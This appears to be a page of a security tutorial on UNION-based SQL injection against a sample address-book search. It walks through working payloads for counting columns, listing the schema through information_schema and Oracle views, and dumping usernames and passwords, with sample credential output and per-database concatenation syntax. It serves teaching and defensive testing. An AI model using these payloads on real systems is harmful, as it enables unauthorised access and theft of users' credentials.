 # Extracting Useful Data

To extract meaningful data via SQL injection, the attacker typically needs to know the **names of relevant tables and columns**. Fortunately, all major database platforms expose rich **metadata schemas** that can be queried to enumerate the full structure of the database.

---

## Extracting Data with UNION

*Example scenario*:
- A user searches for "Matthew" in an address book app.
- POST request:
  ```
  Name=Matthew
  ```

- Server response:
  ```
  NAME              E-MAIL
  Matthew Adamson   handytrick@gmail.com
  ```

---

### **Step 1: Determine the Number of Columns**

- Initial test with one `NULL`:
  ```
  Name=Matthew' UNION SELECT NULL--
  ```

  >➤ **Error**: "All queries combined using a UNION... must have equal number of expressions..."

- Try increasing `NULL`s:
  ```
  Name=Matthew' UNION SELECT NULL,NULL,NULL,NULL,NULL--
  ```

  >➤ **Success**: An empty row is appended to the result table.

---

### **Step 2: Identify a String-Compatible Column**

- Test injection:
  ```
  Name=Matthew' UNION SELECT 'a',NULL,NULL,NULL,NULL--
  ```

  >➤ Result: `'a'` appears in the `NAME` column → indicates string support.

---

### **Step 3: Enumerate Tables and Columns**

- Inject query to retrieve schema metadata:
  ```sql
  Name=Matthew' UNION SELECT table_name, column_name, NULL, NULL, NULL FROM information_schema.columns--
  ```

  ➤ Sample output:
  ```
  NAME          E-MAIL
  shop_items    price
  shop_items    prodid
  shop_items    prodname
  addr_book     contactemail
  addr_book     contactname
  users         username
  users         password
  ```

---

### **Step 4: Extract Sensitive Data**

- Now that the `users` table is known, extract credentials:
  ```sql
  Name=Matthew' UNION SELECT username, password, NULL, NULL, NULL FROM users--
  ```

  ➤ Sample output:
  ```
  NAME          E-MAIL
  administrator fme69
  dev           uber
  marcus        8pinto
  smith         twosixty
  jlo           6kdown
  ```

---

## TIP: Platform-Specific Notes

* **Supported DBMS**: The `information_schema` is used by MS-SQL, MySQL, PostgreSQL, SQLite, etc.
* **Oracle equivalent**:
  - Full database:  
    ```sql
    SELECT table_name, column_name FROM all_tab_columns
    ```
  - Current user only:  
    ```sql
    SELECT table_name, column_name FROM user_tab_columns
    ```

---

## TIP: Search for Interesting Columns

- Rather than enumerating everything, focus on keywords:
  ```sql
  SELECT table_name, column_name 
  FROM information_schema.columns 
  WHERE column_name LIKE '%PASS%'
  ```

---

## TIP: Concatenate Columns for Easier Extraction

This simplifies extraction when only one string column is available in the response.

* **Oracle**:
  ```sql
  SELECT table_name || ':' || column_name FROM all_tab_columns
  ```

* **MS-SQL**:
  ```sql
  SELECT table_name + ':' + column_name FROM information_schema.columns
  ```

* **MySQL**:
  ```sql
  SELECT CONCAT(table_name, ':', column_name) FROM information_schema.columns
  ```
